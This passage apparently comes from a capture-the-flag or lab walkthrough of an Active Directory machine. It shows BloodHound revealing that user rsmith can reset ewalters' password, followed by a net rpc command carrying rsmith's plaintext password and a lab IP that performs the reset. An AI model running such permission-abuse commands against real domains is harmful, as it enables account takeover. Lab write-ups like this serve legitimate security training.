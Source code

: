 ![image.png](../images/trusted%2011.png)

now let’s go and open bloodhound and see if we have any interesting permissions

![image.png](../images/trusted%2012.png)

As we see rsmith can reset the password of ewalters so let’s go and reset it

```bash
net rpc password EWALTERS -U lab.trusted.vl/'rsmith'%'IHateEric2' -S 10.10.204.86
```

![image.png](../images/trusted%2013.png)